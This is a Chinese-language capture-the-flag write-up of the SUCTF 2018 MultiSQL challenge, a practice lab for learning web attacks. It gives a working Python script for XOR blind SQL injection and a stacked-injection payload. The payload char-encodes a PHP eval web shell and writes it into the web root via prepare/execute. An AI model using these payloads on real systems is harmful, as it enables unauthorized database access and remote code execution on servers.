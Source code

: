 # [SUCTF 2018]MultiSQL

## 知识点

`堆叠注入`

`异或注入`

`sql预编译写入shell`

## 解题

首页没有找到利用的东西

![](./img/[SUCTF2018]MultiSQL-1.png)

查看源代码，发现了`注册`和`登录`

![](./img/[SUCTF2018]MultiSQL-2.png)

简单注册登录后发现`url中有id参数`，尝试异或是否能正常执行，正常界面如下

![](./img/[SUCTF2018]MultiSQL-3.png)

`0^6`返回`id=6`的界面,`6^6`返回`id=0`的界面

![](./img/[SUCTF2018]MultiSQL-4.png)

![](./img/[SUCTF2018]MultiSQL-5.png)

尝试异或注入，使用代码判断数据库长度

```python
import requests
# from urllib.parse import urljoin

url = 'http://1819e187-71c1-48af-8e9a-5d77f5213894.node5.buuoj.cn:81/user/user.php?id='

COOKIE = {'PHPSESSID': 'hrsljrip8dshqjd9krvdr99b65'}

def judge_database(db_length):
    """ 获取数据库长度 """
    for i in range(db_length):
        tmp_url = f"{url}0^(length(database())={i})"
        resp = requests.get(tmp_url, timeout=8, cookies=COOKIE)
        if "user_name:admin" in resp.text:          # 正确条件
            print(f"Database length is: {i}")
            break
        print(f"try 0^(length(database())={i})")


if __name__ == '__main__':
    db_length = 20
    judge_database(db_length)
```

![](./img/[SUCTF2018]MultiSQL-6.png)

发现可以注入数据库，但是后面似乎过滤了`substrd`等，尝试堆叠注入直接写入文件

使用`python`代码生成`sql char hex`编码

```python
def sql_to_char(sql):
    strings = ','.join([str(ord(c)) for c in sql])
    print(f"char({strings})")

# sql_statement = "select sleep(2);"

sql_statement = "select '<?php eval($_POST[_]);?>' into outfile '/var/www/html/favicon/1.php';"


sql_to_char(sql_statement)

# char(115,101,108,101,99,116,32,39,60,63,112,104,112,32,101,118,97,108,40,36,95,80,79,83,84,91,95,93,41,59,63,62,39,32,105,110,116,111,32,111,117,116,102,105,108,101,32,39,47,118,97,114,47,119,119,119,47,104,116,109,108,47,102,97,118,105,99,111,110,47,49,46,112,104,112,39,59)
```

通过预编译和堆叠注入直接写入文件

```
?id=2;set+@sql=char(115,101,108,101,99,116,32,39,60,63,112,104,112,32,101,118,97,108,40,36,95,80,79,83,84,91,95,93,41,59,63,62,39,32,105,110,116,111,32,111,117,116,102,105,108,101,32,39,47,118,97,114,47,119,119,119,47,104,116,109,108,47,102,97,118,105,99,111,110,47,49,46,112,104,112,39,59);prepare+query+from+@sql;execute+query;
```

![](./img/[SUCTF2018]MultiSQL-7.png)

![](./img/[SUCTF2018]MultiSQL-8.png)
